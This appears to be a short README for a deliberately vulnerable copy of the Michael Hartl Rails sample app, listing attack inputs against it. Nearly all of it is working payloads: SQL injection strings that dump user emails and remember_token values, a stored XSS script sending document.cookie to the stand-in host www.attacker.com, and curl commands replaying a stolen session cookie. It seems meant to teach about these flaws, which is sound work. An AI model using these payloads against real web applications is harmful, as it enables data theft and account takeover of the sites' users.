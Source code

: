 # Michael Hartl Sample App + Security Vulnerabilities
=====================================================

SQL injection
-------------
* a' ) or 1 = 1  --  
* XXX') union select 1, email, 1, 1, 1 from users --  
* XXX') union select 1, remember_token, 1, 1, 1 from users --  

    curl "http://www.blog.com:3000/" --cookie remember_token=


CSS
---
* Post this
    <script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>


XSRF
----
    curl "http://www.blog.com:3000/microposts/7" --cookie remember_token=XXXXXXXX
